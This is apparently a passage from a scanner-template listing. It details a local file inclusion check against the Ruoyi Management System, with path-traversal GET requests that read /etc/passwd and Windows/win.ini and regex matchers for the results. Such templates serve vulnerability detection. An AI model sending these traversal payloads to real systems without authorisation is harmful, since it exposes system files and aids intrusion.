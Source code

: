 ### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Ruoyi Management System - Local File Inclusion

## Description

- The Ruoyi Management System contains a local file inclusion vulnerability that allows attackers to retrieve arbitrary files from the operating system.
- severity - high
- tags - ruoyi,lfi,cnvd,cnvd2021

## Requests

- Method - GET

### URL

- {{BaseURL}}/common/download/resource?resource=/profile/../../../../etc/passwd
- {{BaseURL}}/common/download/resource?resource=/profile/../../../../Windows/win.ini

### Matchers

**Type - regex**

- part - body
- regex
  1. root:.\*:0:0

**Type - word**

- part - body
- words
  1. bit app support
  2. fonts
  3. extensions
- condition - and

---

# Landray-OA - Local File Inclusion
